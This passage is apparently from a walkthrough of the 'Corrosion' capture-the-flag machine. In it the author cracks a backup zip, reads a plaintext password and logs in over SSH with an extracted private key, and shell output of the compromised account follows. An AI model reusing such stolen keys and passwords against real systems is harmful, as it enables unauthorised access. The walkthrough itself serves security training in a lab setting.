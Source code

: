 In this case, i got the password as `!randybaby` and unzipped the contents. Cating the contents of `my_password.txt`, we get the password which we can use to authenticate with for further enumeration.

```bash
➜  ls -la
total 32
drwxr-xr-x 2 root root 4096 Jan 17 17:05 .
drwxr-xr-x 4 root root 4096 Jan 17 15:01 ..
-rw-r--r-- 1 root root  148 Jul 30 02:11 easysysinfo.c
-rw-r--r-- 1 root root  403 Jan 17 17:05 forjohn
-rw------- 1 root root 2590 Jul 30 02:20 id_rsa
-rw-r--r-- 1 root root  563 Jul 30 02:20 id_rsa.pub
-rw-r--r-- 1 root root   23 Jul 30 02:21 my_password.txt
-rw-r--r-- 1 root root 3285 Jan 17 17:04 user_backup.zip
➜  cat my_password.txt
randylovesgoldfish1998
```

We're in.😎

https://www.proibidoler.com/wp-content/uploads/2016/01/mr-robot-confira-os-erros-de-gravacao-da-1a-temporada.gif

```bash
➜  ssh randy@192.168.56.151 -i id_rsa
randy@192.168.56.151's password:
Welcome to Ubuntu 21.04 (GNU/Linux 5.11.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

119 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Fri Jul 30 15:28:02 2021 from 10.0.0.69
randy@corrosion:~$ id
uid=1000(randy) gid=1000(randy) groups=1000(randy),4(adm),24(cdrom),30(dip),46(plugdev),121(lpadmin),133(sambashare)
randy@corrosion:~$ ls -la
total 88
drwxr-x--- 17 randy randy 4096 Jul 30 16:01 .
drwxr-xr-x  3 root  root  4096 Jul 29 17:05 ..
-rw-rw-r--  1 randy randy   68 Jul 30 16:01 .bash_history
-rw-r--r--  1 randy randy  220 Jul 29 17:05 .bash_logout
-rw-r--r--  1 randy randy 3771 Jul 29 17:05 .bashrc
drwxrwxr-x 12 randy randy 4096 Jul 30 15:19 .cache
drwx------ 11 randy randy 4096 Jul 29 19:18 .config
drwxr-xr-x  2 randy randy 4096 Jul 29 17:40 Desktop
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Documents
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Downloads
drwx------  2 randy randy 4096 Jul 30 15:41 .gnupg
drwxr-xr-x  3 randy randy 4096 Jul 29 17:11 .local
drwx------  5 randy randy 4096 Jul 29 19:15 .mozilla
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Music
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Pictures
-rw-r--r--  1 randy randy  807 Jul 29 17:05 .profile
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Public
-rw-rw-r--  1 randy randy    0 Jul 30 14:48 .selected_editor
drwx------  2 randy randy 4096 Jul 29 17:24 .ssh
-rw-r--r--  1 randy randy    0 Jul 29 17:12 .sudo_as_admin_successful
```